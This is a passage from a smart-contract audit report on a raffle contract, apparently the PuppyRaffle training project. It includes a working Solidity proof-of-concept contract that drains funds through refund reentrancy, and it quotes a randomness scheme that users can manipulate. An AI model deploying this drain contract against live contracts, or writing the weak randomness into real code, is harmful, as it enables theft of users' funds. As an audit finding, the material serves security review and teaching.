 ```javascript

    constructor(PuppyRaffle _puppyraffle){
        puppyRaffle = _puppyraffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
          if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
    }
    fallback() external payable {
      _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

**Recommended Mitigation:**

1. add a reentrancy guard
2. initialize a storage variable to set a value when the function is been called and the value to checked to prevent another user from re-entrying into the function , it throws an error

## [H-2] Weak Randomness in `PuppyRaffle::selectWinner` allows users to influence a winner

**Description:** Malicious users can manipulate this result to benefit them

**Impact:**
HIGH
Users can manipulate the raffle and claim the best rewards

```javascript
        uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;

        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }
```
